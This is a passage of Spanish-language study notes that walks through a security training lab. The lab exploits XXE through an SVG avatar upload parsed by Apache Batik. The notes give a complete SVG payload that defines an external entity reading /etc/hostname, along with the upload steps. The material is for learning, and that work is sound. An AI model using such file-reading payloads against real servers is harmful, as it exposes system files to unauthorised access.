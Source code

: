 En esta clase seguimos explorando vectores de ataque XXE, esta vez aprovechando la funcionalidad de subida de imágenes del laboratorio. El servidor permite a los usuarios subir avatares en formato SVG, los cuales son procesados con la librería Apache Batik. Esta librería interpreta entidades definidas dentro del SVG, lo que abre la puerta a un ataque XXE clásico.

Creamos un archivo SVG en el que definimos una entidad que apunta al archivo del sistema que contiene el nombre del host. Luego, insertamos esa entidad como contenido textual del SVG. Al subir la imagen como avatar en un comentario, el servidor procesa el archivo y renderiza el contenido de esa entidad, mostrando así el nombre del host en el propio avatar. Esta información es la que se necesita para resolver el laboratorio.

Solucion
primero podemos usar la biblia
![Pasted_image_20250730205158.png](/Imagenes/Pasted_image_20250730205158.png)
https://github.com/swisskyrepo/PayloadsAllTheThings

entonces aqui lo que se hace es por medio de un archivo que dentro contendra un payload nos mostrar la data 
payload (<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>)
Nuestra supuesta imagen se llamara image.svg y contendra el payload
![Pasted_image_20250730210003.png](/Imagenes/Pasted_image_20250730210003.png)
y lo cargaremos en la web
![Pasted_image_20250730210143.png](/Imagenes/Pasted_image_20250730210143.png)
aqui podemos ver nuestro comentario
![Pasted_image_20250730210223.png](/Imagenes/Pasted_image_20250730210223.png)
aqui poco se ve la imagen pero lo abrimos en una nueva pestaña
![Pasted_image_20250730210259.png](/Imagenes/Pasted_image_20250730210259.png)
y obtenemos dentro de la imagen el hostname
